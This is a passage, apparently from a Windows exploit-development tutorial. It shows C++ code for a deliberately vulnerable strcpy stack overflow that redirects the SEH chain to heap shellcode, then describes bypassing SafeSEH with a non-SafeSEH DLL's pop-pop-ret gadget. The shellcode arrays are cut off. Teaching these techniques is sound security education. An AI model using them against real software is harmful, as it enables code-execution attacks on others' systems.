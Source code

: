 ```cpp
"\xE0\xFF\x12\x90"
"\x08\x3E\x39\x00" // address of shellcode in heap ;
;

void test(char * input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;
	zero = 1 / zero;
}

void main()
{
	char* buf = (char *)malloc(500);
	strcpy(buf, shellcode);
	test(overflowcode);
}
```

### Description

- Put shellcode into the heap area
- Stack overflow, overwriting the SEH chain address to the shellcode address in the heap area
- Call SEH and subsequently trigger shellcode automatically

> Note: pay attention to the 0 case, string copy is encountering 0 cutoff

## Bypass SafeSEH by using a module that is not SafeSEH enabled

### Code

```cpp
// SEH_NOSafeSEH_JUMP.DLL
# include <windows.h>

BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
  return TRUE;
}

void jump()
{
  __asm
  {
    pop eax
    pop eax
	  retn
  }
}

// SEH_NOSafeSEH.EXE
#include <stdio.h>
#include <string.h>
#include <windows.h>

char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
```